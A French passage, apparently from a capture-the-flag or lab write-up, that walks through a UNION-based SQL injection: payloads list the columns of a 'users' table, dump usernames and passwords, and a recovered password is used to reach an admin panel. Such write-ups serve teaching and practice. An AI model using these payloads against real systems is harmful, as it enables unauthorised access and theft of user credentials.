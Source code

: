 
Nous allons nous focaliser sur le contenu de la table "User" en récupérant le nom de ces colonnes au moyen du payload suivant:
```SQL
' UNION SELECT GROUP_CONCAT(column_name), 1, 1 FROM information_schema.columns WHERE table_name = 'users' #
```

<img src="./users_table_names.png" width=500>


 Maintenant que l'on connait le format attendu et le nom des tables on peut utiliser les payload suivants pour trouver les noms d'utilisateur et les mots de passe des différents utilisateurs:
```SQL
' UNION SELECT GROUP_CONCAT(username), null, null FROM users #
```
```SQL
' UNION SELECT GROUP_CONCAT(password), null, null FROM users # 
```

On peut alors essayer toutes les combinaisons possibles (il y'en a 6).
En essayant de se connecter au compte de `madeleineforestier` avec le mot de passe `fo2DVkgShz2pPJ`, on arrive sur la page suivante (en accédant au panneau admin qui est maintenant disponible):
